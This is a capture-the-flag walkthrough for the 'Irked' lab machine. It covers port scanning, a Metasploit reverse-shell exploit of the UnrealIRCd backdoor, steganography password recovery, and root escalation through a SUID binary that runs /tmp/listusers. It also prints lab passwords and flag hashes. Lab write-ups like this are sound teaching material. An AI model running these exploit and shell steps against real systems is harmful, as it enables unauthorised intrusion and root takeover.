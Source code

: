 

Initial Nmap scan:

```
nmap -sV -sC -p- 10.10.10.117
```

```
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
60833/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
```

## Exploiting UnrealIRCd Backdoor

Use Metasploit or manual reverse shell over the UnrealIRCd backdoor:
```
msfconsole
search UnrealIRCd 
select 0
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 10.10.10.117
set RPORT 65534
set payload cmd/unix/reverse
set LHOST <tun0 IP>
set LPORT 4444
run
```
Shell as `ircd`

## Lateral Movement 

```
find /home/djmardov -type f -exec ls -la {} \; 2>/dev/null
-rw-r--r-- 1 djmardov djmardov 675 May 11  2018 /home/djmardov/.profile
-rw-r--r-- 1 djmardov djmardov 52 May 16  2018 /home/djmardov/Documents/.backup
-rw------- 1 djmardov djmardov 4706 Nov  3  2018 /home/djmardov/.ICEauthority
-rw-r--r-- 1 djmardov djmardov 220 May 11  2018 /home/djmardov/.bash_logout
-rw-r--r-- 1 djmardov djmardov 3515 May 11  2018 /home/djmardov/.bashrc
-rw-r----- 1 root djmardov 33 Apr 17 21:38 /home/djmardov/user.txt
ircd@irked:~/Unreal3.2$ ls -la /home/djmardov
```
Lets check the .backup
```
/home/djmardov/Documents/.backup
cat /home/djmardov/Documents/.backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

If we try to log in to djmardov with this password, we are not allowed to do that :(
But there was an image on the from page, lets have a look at that.

```
wget http://10.10.10.117/irked.jpg
```

```
steghide extract -sf irked.jpg
# Password: UPupDOWNdownLRlrBAbaSSss

Kab6h+m+bbp2J:HG
```

Now back in our shell 
``
```
su djmardov
# Password: Kab6h+m+bbp2J:HG

cat ~/user.txt
88780f4a6407365cc883e23959d27e6e
```

## Privilege Escalation to Root

Check for SUID binaries:
```
find / -perm -4000 -type f 2>/dev/null
...
/usr/bin/viewuser
...
```

If we run that 
```
/usr/bin/viewuser
sh: 1: /tmp/listusers: not found
```
This means it tries to run `/tmp/listusers` **as root**.
Create malicious script:

```
echo "/bin/sh" > /tmp/listusers
chmod +x /tmp/listusers
```

Run the SUID binary:
```
/usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2025-04-17 21:38 (:0)
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
pass.txt  root.txt
# cat root.txt
cat root.txt
feff7c74c72c03a02efec10c2bab2b52
```


## What’s the Privilege Escalation?

Once you get access as the user `djmardov`, you notice there’s a strange binary on the system called `viewuser`. It’s not something you'd normally find on a Linux box, which makes it suspicious right away.
The key thing about this binary is that it has the SetUID permission set which means whenever it is executed, it runs as root, regardless of which user launches it. That alone isn’t necessarily dangerous — many legitimate system programs use SetUID but when a custom binary does this, it often opens the door to privilege escalation.
When you run the binary, it prints a vague message about being in development and then shows an error: it tries to run a file called `/tmp/listusers`, but that file doesn’t exist.
This is the actual vulnerability.

The binary is written in a way that it tries to execute the `/tmp/listusers` script without checking its contents or permissions and since the binary is running as root, anything it executes also runs as root.
If the binary were coded securely, it would never blindly run something from a writable location like `/tmp`. But in this case, it does and it gives any user on the system the opportunity to place a malicious file at `/tmp/listusers`.
This is a classic example of insecure use of external scripts in a privileged context.

Because `/tmp` is writable by any user, you as `djmardov` can simply create a file named `/tmp/listusers` and make it executable. Inside that file, you place a command that spawns a root shell. Then you run the vulnerable binary.
Since the binary is SetUID and runs as root and it's designed to run `/tmp/listusers` — your malicious script gets executed with full root privileges.
This instantly gives you a root shell, and you can now access `root.txt` or do anything else on the box.